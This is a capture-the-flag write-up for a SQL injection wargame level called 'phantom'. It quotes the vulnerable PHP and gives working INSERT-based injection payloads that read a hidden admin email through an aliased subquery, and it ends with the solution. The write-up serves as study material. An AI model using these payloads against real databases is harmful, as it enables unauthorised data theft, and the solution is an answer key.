

As we can see, we can insert whatever we want to the table:
```php
if($_GET['joinmail']){
    if(preg_match('/duplicate/i', $_GET['joinmail'])) exit("nice try");
        $query = "insert into prob_phantom values(0,'{$_SERVER[REMOTE_ADDR]}','{$_GET[joinmail]}')";
        mysqli_query($db,$query);
        echo "<hr>query : <strong>{$query}</strong><hr>";
}
```

And then it shows us all those with `no=1`, where it's censoring the email, and also all those with our ip:
```php
$rows = mysqli_query($db,"select no,ip,email from prob_phantom where no=1 or ip='{$_SERVER[REMOTE_ADDR]}'");
echo "<table border=1><tr><th>ip</th><th>email</th></tr>";
while(($result = mysqli_fetch_array($rows))){
    if($result['no'] == 1) $result['email'] = "**************";
        echo "<tr><td>{$result[ip]}</td><td>".htmlentities($result[email])."</td></tr>";
    }
    echo "</table>";
```

So, let's give something like this:
```sql
a'),(3,'199.203.227.29',(select 'Inject'))-- 
```

As we can see, it outputs the `Inject` as an email.

So, let's try getting the secret email
```sql
a'),(3,'199.203.227.29',(select email from prob_phantom where no=1))-- 
```

From some reason it isn't working. It getting stuck because we try to fetch and update the same table, so it can't do that.

The trick is to fetch from `prob_phatom`, while giving it an alias
```sql
a'),(3,'199.203.227.29',(select email from prob_phantom as tb_tmp where no=1))-- 
```

and the email we got is:
```
admin_secure_email@rubiya.kr
```

Notice to change the `no` each time you insert, it plays as an Primary Key in the table.



**Password:** ***`admin_secure_email@rubiya.kr`*** 
